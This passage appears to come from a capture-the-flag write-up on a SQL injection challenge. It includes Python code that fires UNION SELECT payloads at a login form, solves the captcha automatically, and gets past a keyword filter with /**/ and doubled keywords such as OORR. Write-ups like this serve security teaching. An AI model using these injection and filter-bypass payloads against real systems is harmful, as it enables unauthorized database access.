 ```python
        return 2
```

Now, we can automate! As a start, we can use the `SELECT FROM UNION SELECT` syntax to help us in querying the database, but before that, we need to determin the number of columns the first query is selecting in order to make an `UNION`. To determin that, we can use the following script:

```python
for i in range(1, 50):
    args = ['NULL' for i in range(i)]
    args = ','.join(args)
    if sendPayload("'OR 1=1 UNION SELECT "+args+" #", 'd') == 1:
        print(i)
        break
```

Running this will result in getting a `statement error`. In the error, we can see that:

* Spaces are removed from our input.
* `OR` is being removed. (Later on, we'll figure out that `AND` is being removed too.)

To bypass this, we can simply use `/**/` to replace space & `OOR` and `AANDND` to bypass the keywords filter (Luckly they are replaced only once).

We update our `sendPayload` code to the following:

```python
def sendPayload(username, password):
    username = username.replace(' ', '/**/').replace('OR', 'OORR').replace('or', 'oorr').replace('AND', 'AANDND').replace('and', 'anandd')
    
    with requests.Session() as sess:
        resp = sess.get('http://34.175.249.72:60001/scripts/captcha.php')
        captcha = resp.content[-13:-1]
        captcha = base64.b64decode(base64.b64decode(captcha))
        
        resp = sess.post(
            "http://34.175.249.72:60001/index.php",
            data={
                "username":username,
                "password":password,
                "captcha":captcha,
                "send":"Send"
            }
        )
        if b"Invalid username or password" in resp.content:
            return 0
        
        if b"Treasures are always in the database" in resp.content:
            return 1
        
        if b"statement error" in resp.content:
            print(resp.content)
            return 2
```
